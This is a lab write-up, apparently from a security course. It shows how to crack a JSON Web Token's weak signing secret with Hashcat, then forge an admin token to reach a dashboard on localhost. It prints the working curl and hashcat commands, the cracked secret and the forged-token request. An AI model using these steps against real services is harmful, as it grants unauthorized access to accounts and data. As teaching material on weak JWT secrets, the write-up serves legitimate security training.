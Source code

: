 
---

# 📖 High-Level Summary:

This lab demonstrates how to use **Hashcat** to crack a JSON Web Token (JWT) signature and leverage the cracked password to forge a new token with elevated privileges. By modifying the JWT payload and signing it with the cracked password, access to the **admin dashboard** is achieved.

---

# 📚 Definition Bank:

| **Term**                     | **Definition**                                                             | **Key Notes**                                                                   |
| ---------------------------- | -------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **Hashcat**                  | A password recovery tool designed for brute-forcing hashes.                | Supports cracking JWT signatures using `-m 16500`.                              |
| **JWT (JSON Web Token)**     | A token format containing encoded header, payload, and signature sections. | Used for stateless authentication. Can be decoded at [jwt.io](https://jwt.io/). |
| **curl**                     | A command-line tool for transferring data with URLs.                       | Useful for interacting with APIs to send requests and headers.                  |
| **`-a` flag in Hashcat**     | Specifies the attack mode. `-a 0` means dictionary-based attacks.          | Most common mode used with wordlists.                                           |
| **`-m` flag in Hashcat**     | Specifies the hash type to crack. `-m 16500` is used for JWT signatures.   | Identifies the hash algorithm to be cracked.                                    |
| **`--show` flag in Hashcat** | Displays cracked hashes and their corresponding plaintext passwords.       | Used to confirm successful cracks.                                              |

---

# 🎯 Steps and Commands:

### Step 1: Login with Valid Credentials

1. Use `curl` to log in and retrieve a **JWT**:
    
```bash
curl -X POST http://localhost/login --header "Content-Type: application/json" --data '{"username": "user", "password": "user"}'
```
    
2. **Output:**
    
```json
{
"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k"
}
```


---

### Step 2: Crack the JWT with Hashcat

1. Use Hashcat to crack the signature using a wordlist:
    
    ```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k /usr/share/wordlists/rockyou.txt
```

2. **Output:**
    
```
    Status...........: Cracked
    Hash.Mode........: 16500 (JWT (JSON Web Token))
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Recovered........: 1/1 (100.00%) Digests
```


---

### Step 3: Verify the Cracked Password

1. Use the `--show` flag to confirm the cracked password:
    
```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k /usr/share/wordlists/rockyou.txt --show
```

2. **Output:**
    
```
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k:ucyxu6
```


---

### Step 4: Modify the JWT and Access the Admin Dashboard

1. Decode the token at [jwt.io](https://jwt.io/).
    
2. Modify the payload:
    
```json
    {
      "userid": "admin",
      "iat": 1675347297
    }
```
    
3. Re-sign the token using the cracked password `ucyxu6`.
    
4. Use the modified token to access the admin dashboard:
    
```bash
curl -i http://localhost/dashboard --header 'Authorization: Bearer <modified_token>'
```
    
5. **Output:**
    
```http
    HTTP/1.1 200 OK
    Content-Type: application/json; charset=utf-8
    {
      "message": "Welcome to your dashboard admin"
    }
```


---

# ✅ Key Takeaways:

- **Hashcat**: A powerful tool for cracking JWT signatures when the secret is weak or guessable.
- **JWT Weakness:** If the signing secret is cracked, payload manipulation can grant unauthorized access.
- **curl:** Useful for testing API endpoints with forged tokens for privilege escalation.

---
